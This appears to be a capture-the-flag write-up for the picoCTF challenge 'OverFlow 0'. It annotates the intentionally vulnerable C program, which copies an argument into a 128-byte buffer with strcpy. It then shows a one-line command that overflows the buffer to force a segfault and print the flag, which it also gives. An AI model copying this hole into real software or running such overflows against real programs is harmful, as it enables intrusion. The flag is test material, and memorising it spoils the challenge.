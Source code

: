# OverFlow 0 

Points : 100

# Question

This should be easy. Overflow the correct buffer in this [program](vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](vuln.c).

# Hint 

Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters.
Sometimes there are things you aren't expecting.


# Solution

By examin the source code we can see that :

``` C

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];		<-------------------- We create new buffer size 128
  strcpy(buf, input);		<--------- We copy our input to the buffer using strcpy (which is vulnerable to buffer over flow)
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);          <-------- If we get SIGSEGV then we jump to sigsegv_handler which print the flag
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {                              <------ if our input is > 1 then we call vuln function 
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

basically if we mange to cause a SIGSEGV we will get the flag .

since our buffer is 128 and we have another 4 bytes of EBP and just then we will start to overrride the return address , we need to overflow with at least (128+4+1) bytes.

```./vuln $(python -c "print 'A'*(BUFFER+EBP_SIZE+1 OR MORE)")```

![](overflow0.png)


# Flag
picoCTF{3asY_P3a5y1fcf81f9}

